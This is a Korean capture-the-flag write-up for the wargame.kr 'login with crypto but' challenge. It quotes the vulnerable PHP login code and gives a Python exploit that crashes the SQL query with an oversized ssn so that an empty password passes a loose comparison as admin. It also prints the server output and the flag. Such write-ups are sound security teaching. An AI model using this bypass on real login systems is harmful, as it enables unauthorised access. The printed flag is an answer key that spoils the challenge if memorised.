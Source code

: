 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-03-00-47-48.png)

# **Write-Up**

또 로그인이다.

![](images/2022-01-03-00-48-11.png)

FLAG를 얻을 수 있는 로직을 확인해보면 POST에 user, ssn, pass변수가 있어야하고, pass와 get_password함수의 리턴 값과 같아야고 user가 admin이여야 한다.

```php
if( (isset($_POST['user']) && isset($_POST['ssn']) && isset($_POST['pass'])) ){
 
 sleep(2); // do not bruteforce !!!! this challenge is not for bruteforce!!

 if($_POST['pass'] == get_password($_POST['user'],$_POST['ssn'])){

  if($_POST['user'] == "admin"){
   echo "Login Success!!! PASSWORD IS : <b>".auth_code("login with crypto! but..")."</b>";
  }else{
   echo "Login Success. but you r not 'admin'..";
  }
 }else{
  echo "Login Failed";
 }

}
```

공격의 핵심부인 get_password함수를 보자.

1. mysql_real_escape_string함수로 입력값을 처리하므로 SQLi는 힘들어 보인다. 

2. ssn데이터를 sucker_enc함수의 인자로 넣고 enc함수를 8번 호출한다.

3. enc함수는 Triple DES를 이용하여 인자로 들어온 값을 암호화 한후 base64로 인코딩한 뒤 hex string으로 리턴한다.

```php
function enc($str){
 $s_key = "L0V3LySH:butsheismyxgf..";
 $s_vector_iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_3DES, MCRYPT_MODE_ECB), MCRYPT_RAND);
 $en_str = mcrypt_encrypt(MCRYPT_3DES, $s_key, $str, MCRYPT_MODE_ECB, $s_vector_iv);
 $en_base64 = base64_encode($en_str);
 $en_hex = bin2hex($en_str);
 return $en_hex;
}

function sucker_enc($str){
 for($i=0;$i<8;$i++) $str = enc($str);
 return $str;
}

function get_password($user,$ssn){
 db_conn();
 $user = mysql_real_escape_string($user);
 $ssn  = mysql_real_escape_string($ssn);
 $result = mysql_query("select user_ps from accounts where user_id='{$user}' and encrypt_ss='".sucker_enc($ssn)."'");
 $row = mysql_fetch_array($result);
 if ($row === false) {
  die("there is not valid account!");
 }
 return $row[0]; 
}
```

암호화와 암호화의 결과를 다시 암호화의 입력 값으로 들어가는 반복문이 있기때문에, 블록 암호 알고리즘에 의해서 점차 크기가 증가할 것이다.

그렇다면, 다음과 같은 공략으로 공격해보자.

1. ssn을 처음부터 크게주면 sucker_enc의 리턴값은 매우 큰 용량의 데이터가 될 것이다.

2. mysql_query함수를 처리 중 mysql가 처리할 수 있는 양 이상의 데이터가 들어와서 뻑가고, result는 False값이 됨

3. mysql_fetch_array는 boolean type의 변수가 올 수 없기 때문에 Error가 나고, row는 NULL값이 됨

4. Loose comparisons(==)에 의해서 NULL과 pass를 비교 이때 pass가 ''이면 True를 반환

5. user가 admin이라면 FLAG획득

```python
import urllib
import urllib.request

url                 = 'http://wargame.kr:8080/login_with_crypto_but/index.php'
headers             = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64)', 'Content-Type': 'application/x-www-form-urlencoded'}
data                = urllib.parse.urlencode({'user':'admin', 'ssn':'A'*99999, 'pass':''}).encode()
request             = urllib.request.Request(url, headers = headers, data = data)
response            = urllib.request.urlopen(request)
print(response.read().decode())

<br />
<b>Warning</b>:  mysql_fetch_array() expects parameter 1 to be resource, boolean given in <b>/var/www/html/login_with_crypto_but/index.php</b> on line <b>53</b><br />
Login Success!!! PASSWORD IS : <b>a5113cbf58b42dc90a785d81a673b2fbd77f3ffe</b><hr />
<form method="post" action="./index.php">
<table>
 <tr><td>Identify</td><td><input type='text' value='guest' maxlength='32' name='user' /></td>
 <tr><td>Social Security</td><td><input type='text' maxlength='6' value='000000' name='ssn' /></td>
 <tr><td>PASSWORD</td><td><input type='text' value='guest' name='pass' /></td>
 <tr><td colspan="2"><input type="submit" value="Login" /></td></tr>
</table>
</form>
<hr />
<a href='./?view-source'>GET SOURCE</a>
```

# **FLAG**

**a5113cbf58b42dc90a785d81a673b2fbd77f3ffe**